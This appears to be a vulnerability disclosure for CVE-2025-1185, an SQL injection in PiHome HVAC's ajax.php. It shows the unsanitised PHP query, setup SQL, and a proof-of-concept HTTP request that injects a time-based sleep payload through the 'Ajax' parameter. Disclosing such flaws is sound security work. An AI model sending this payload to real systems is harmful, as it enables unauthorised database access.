

# SQL Injection in Pihome HVAC v2.0 in ajax.php

### Title: SQL Injection in PihomeHVAC in ajax.php
### Affected Component: /ajax.php
### CWE: CWE-89 (SQL Injection)
### CVE-2025-1185


### **Edits**

#### Update: 2025-02-06 16:20:00 (CET)
Edit reason: added screenshot of proof and steps to exploit


### Vendor homepage:
[https://github.com/pihome-shc/PiHomeHVAC/](https://github.com/pihome-shc/PiHomeHVAC/)

### Setup for getting the PoC to Work
Setup the project and then add a sensor. The prerequisite is that there is a sensor set up in the database. 

#### MySQL queries


```mysql
SET foreign_key_checks = 0;

INSERT INTO `sensors` 
SET 
    `sync` = 0, 
    `purge` = 0, 
    `zone_id` = 1, 
    `sensor_id` = 100, 
    `sensor_child_id` = 50, 
    `correction_factor` = 1.5, 
    `sensor_type_id` = 2, 
    `index_id` = 1, 
    `pre_post` = 0, 
    `name` = 'Temperature Sensor', 
    `graph_num` = 1, 
    `show_it` = 1, 
    `min_max_graph` = 0, 
    `message_in` = 1, 
    `frost_temp` = 0, 
    `frost_controller` = 0, 
    `mode` = 1, 
    `timeout` = 60, 
    `resolution` = 0.5, 
    `current_val_1` = 22.5, 
    `current_val_2` = 23.0, 
    `user_display` = 0;
```


### Impact:
The web application is vulnerable to SQL Injection attacks within ajax modal functionality. Attackers can exploit this vulnerability by injecting malicious input into the "Ajax" parameter,
which is used to edit values in the `sensors` table. Make sure a record exists here.

The code below shows (ajax.php line 55) that the user input is put into the query without sanitation. This is a high risk vulnerability.

```php
$pieces = explode(',', $_GET['Ajax']);
        $sensor_id = $pieces[1];
	$query="SELECT * FROM sensors WHERE id = {$pieces[1]} LIMIT 1;";
        $result = $conn->query($query);
        $row = mysqli_fetch_assoc($result);
```

The developer should escape all input properly. This is a repository wide issue.


### Proof of Concept (POC):
To exploit the SQL injection vulnerability, attackers craft a payload containing malicious input and inject it into the "Ajax" parameter. For example, 
submitting the payload `(sleep(20))--` triggers 20 seconds delay in the request. This demonstrates the successful execution of the injection within the application.


#### HTTP Request:
```
GET /ajax.php?Ajax=GetModal_Sensor_Graph,1%20OR%20(sleep(20))%20%20LIMIT%20100;-- HTTP/1.1
Host: 127.0.0.1:8844
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "macOS"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=087f1b0f23735d827df7afbc7ed3f8b1; PiHomeLanguage=en
Connection: keep-alive
```

### Proof with Screenshot:



## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)